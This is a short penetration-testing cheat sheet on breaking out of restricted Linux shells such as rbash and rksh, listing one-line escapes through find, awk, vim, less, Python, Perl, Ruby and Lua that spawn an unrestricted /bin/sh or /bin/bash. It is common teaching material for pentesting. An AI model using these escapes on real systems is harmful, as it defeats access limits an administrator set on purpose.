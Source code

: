 # Escaping Restricted Shell

Some sysadmins don't want their users to have access to all commands. So they get a restriced shell. If the hacker get access to a user with a restriced shell we need to be able to break out of that, escape it, in order to have more power.

Many linux distros include rshell, which is a restriced shell.

To access the restried shell you can do this:

```text
sh -r 
rsh

rbash
bash -r
bash --restricted

rksh
ksh -r
```

## Possible Escapes

```text
$ find /etc -name passwd exec /bin/bash \\;
$ find / -name blah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# From most text editors: vim, less, more, man, etc.
[in the program] !/bin/bash
:set shell=/bin/bash
:shell
:! /bin/sh

# Inside awk
awk 'BEGIN {system("/bin/bash")}'

# If programming language shells are accessible:

python : exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
$ python -c'import pty; pty.spawn("/bin/bash")'

$ perl -e 'exec "/bin/sh";'

ruby : exec "/bin/sh"
  
lua : os.execute('/bin/sh')

irb(main:001:0> exec "/bin/sh"
```

[http://securebean.blogspot.cl/2014/05/escaping-restricted-shell\_3.html?view=sidebar](http://securebean.blogspot.cl/2014/05/escaping-restricted-shell_3.html?view=sidebar) 

[http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells](http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells)

